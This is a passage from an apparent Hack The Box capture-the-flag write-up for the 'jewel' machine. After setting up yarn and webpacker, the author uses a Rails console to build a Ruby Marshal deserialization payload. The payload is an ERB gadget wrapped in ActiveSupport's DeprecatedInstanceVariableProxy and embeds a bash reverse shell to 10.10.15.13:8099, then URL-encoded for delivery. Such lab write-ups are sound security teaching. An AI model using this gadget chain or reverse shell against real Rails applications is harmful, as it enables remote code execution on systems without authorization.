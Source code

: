 ```text
└─$ sudo npm install --global yarn

added 1 package, and audited 2 packages in 1s

found 0 vulnerabilities

┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails webpacker:install       
      create  config/webpacker.yml
Copying webpack core config
```

I had to do the above steps to resolve the webpacker issues I was receiving. For some reason the gem version of yarn was causing problems, so I had to remove it and install it through npm. 

```text
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails c                
Loading development environment (Rails 6.0.3.5)
irb(main):001:0>
```

After installing all of the dependencies I was able to start the rails console.

```ruby
┌──(zweilos㉿kali)-[~/htb/jewel/testing]
└─$ rails c                
Loading development environment (Rails 6.0.3.5)
irb(main):001:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.15.13/8099 0>&1"`'
=> "`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`"
irb(main):002:0> erb = ERB.allocate
=> #<ERB:0x000055d8ee5731a0>
irb(main):003:0> erb.instance_variable_set :@src, code
=> "`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`"
irb(main):004:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):005:0> erb.instance_variable_set :@lineno, 1
=> 1
irb(main):006:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
=> "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\":`bash -c \"bash -i >& /dev/tcp/10.10.15.13/8099 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:...
irb(main):009:0> require 'uri'
=> false
irb(main):010:0> puts URI.encode_www_form(payload: payload)
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3A%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.15.13%2F8099+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
=> nil
irb(main):011:0>quit()
```
